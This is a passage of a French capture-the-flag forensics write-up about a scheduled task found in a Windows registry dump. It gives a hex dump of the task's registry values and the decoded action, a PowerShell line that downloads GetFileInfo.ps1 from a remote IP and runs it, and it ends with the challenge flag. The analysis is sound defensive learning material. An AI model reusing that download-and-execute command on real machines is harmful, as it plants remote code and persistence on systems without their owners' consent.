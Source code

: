 ```txt
65 00 73 00 2f 00 47 00	e.s./.G.
65 00 74 00 46 00 69 00	e.t.F.i.
6c 00 65 00 49 00 6e 00	l.e.I.n.
66 00 6f 00 2e 00 70 00	f.o...p.
73 00 31 00 20 00 2d 00	s.1...-.
4f 00 75 00 74 00 46 00	O.u.t.F.
69 00 6c 00 65 00 20 00	i.l.e...
47 00 65 00 74 00 46 00	G.e.t.F.
69 00 6c 00 65 00 73 00	i.l.e.s.
49 00 6e 00 66 00 6f 00	I.n.f.o.
2e 00 70 00 73 00 31 00	..p.s.1.
20 00 3b 00 20 00 53 00	..;...S.
74 00 61 00 72 00 74 00	t.a.r.t.
2d 00 50 00 72 00 6f 00	-.P.r.o.
63 00 65 00 73 00 73 00	c.e.s.s.
20 00 2d 00 46 00 69 00	..-.F.i.
6c 00 65 00 50 00 61 00	l.e.P.a.
74 00 68 00 20 00 47 00	t.h...G.
65 00 74 00 46 00 69 00	e.t.F.i.
6c 00 65 00 73 00 49 00	l.e.s.I.
6e 00 66 00 6f 00 2e 00	n.f.o...
70 00 73 00 31 00 00 00	p.s.1..."	False
* 2024-06-07 19:30:25.000000 	0xb90450c0f000	REG_BINARY	\SystemRoot\System32\Config\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\{0669B1EB-ED96-4F61-802F-AB93D8FD0D30}	DynamicInfo	"
03 00 00 00 fd 09 2f 25	....../%
11 b9 da 01 00 00 00 00	........
00 00 00 00 00 00 00 00	........
00 00 00 00 00 00 00 00	........"	False
...
```

On retrouve les différents champs, correspondant aux sous-clés de registre tel que URL, Trigger, Author, etc. Qui sont bien présents si on regarde dans **regedit**.

Ce qui nous intéresse ici est la sous-clé **Actions**, sous cette dernière on retrouve l'appel du script en hexadécimal, un passage dans cyberchef plus tard on obtient ça:

```ps1
Authorff"Invoke-WebRequest-Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1
```

Le nom du script est **GetFilesInfo.ps1**.

---

## Flag

En regroupant les 3 informations, le flag est: **SHLK{Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk-IGotYourFileInfo-GetFilesInfo.ps1}**.

---
